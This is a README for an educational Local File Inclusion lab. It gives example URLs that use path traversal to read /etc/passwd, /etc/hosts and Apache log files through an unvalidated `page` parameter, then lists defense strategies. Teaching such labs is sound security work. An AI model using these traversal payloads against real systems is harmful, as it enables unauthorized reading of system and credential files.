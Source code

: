 # Simple LFI Lab

## Overview
This lab demonstrates a basic Local File Inclusion (LFI) vulnerability for educational purposes.

## Vulnerability
The application includes files via the `page` parameter without proper validation:
```
http://localhost:8081/?page=home
```

## Basic LFI Exploitation

### 1. Include existing pages
```
http://localhost:8081/?page=about
http://localhost:8081/?page=services
http://localhost:8081/?page=contact
```

### 2. Path traversal to read system files
```
http://localhost:8081/?page=../../../../etc/passwd
http://localhost:8081/?page=../../../../etc/hosts
```

### 3. Include log files (if accessible)
```
http://localhost:8081/?page=../../../../var/log/apache2/access.log
http://localhost:8081/?page=../../../../var/log/apache2/error.log
```

## Available Pages
- `home.php` - Main landing page
- `about.php` - About us page
- `services.php` - Services page
- `contact.php` - Contact page

## Defense Strategies
- Validate user input against a whitelist of allowed pages
- Use basename() to prevent path traversal
- Implement proper access controls
- Never include files based on unvalidated user input
- Use a router/controller pattern instead of direct file inclusion

## Educational Purpose
This lab is designed for authorized security testing and education only.